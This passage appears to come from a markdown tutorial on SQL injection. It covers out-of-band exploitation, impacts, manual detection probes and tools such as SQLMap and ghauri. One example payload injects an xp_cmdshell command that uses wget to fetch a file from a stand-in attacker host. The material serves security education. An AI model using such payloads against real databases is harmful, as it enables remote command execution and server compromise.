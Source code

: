 **EX:**

consider a vulnerable application that uses a Microsoft SQL Server database and allows file uploads. The application may have a feature that allows users to upload a profile picture, which is then stored in the database. The application may use a query like the following to retrieve the profile picture for a user:

```sql
SELECT picture_data FROM user_profile WHERE user_id = '123';
```

If the application is vulnerable, an attacker could inject a payload like this:

```sql
'; EXEC xp_cmdshell 'wget http://attacker-server.com/evil-file.txt -O C:\temp\evil-file.txt'; --
```

This payload uses the `xp_cmdshell` stored procedure in Microsoft SQL Server to execute a command that downloads a file from the attacker's server. The attacker can retrieve the file from their own server without the response containing the file's contents, exploiting out-of-band communication.

## What is the impact of SQLI

SQL Injection vulnerabilities can have severe consequences including:

1. unauthorized access to sensitive data like passwords, default credentials.
2. Attackers can modify or delete data  from the database, resulting in permanent loss of valuable records unless backups are in place.
3. **RCE:** attackers can exploit SQL Injection vulnerabilities to execute operating system commands on the server hosting the database, leading to complete system compromise.

## How to find SQLI

### Manual

To find SQL Injection vulnerabilities manually, you can inject various payloads into user inputs:

- Inject a single quote (`'`) or double quote (`"`). If the application displays an error or returns unexpected results, it may indicate a vulnerability.
- Use Boolean conditions like `OR 1=1` and observe any differences in the application's responses.
- SQL comments (like `--` or `#`) can be used to check if the application is vulnerable.
- Use the `UNION` operator to retrieve data from other tables. The goal is to combine the results of the original query with injected queries.
- Inject payloads that cause the database to pause execution using commands like `SLEEP()` in MySQL or `WAITFOR DELAY` in SQL Server.
- Inject queries designed to trigger errors and extract information from error messages.

### Automation

- Tools like [SQLMap](https://github.com/sqlmapproject/sqlmapi) or [ghauri](https://github.com/r0oth3x49/ghauri) can automate SQL Injection testing.

> `Ghauri` is an advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws.
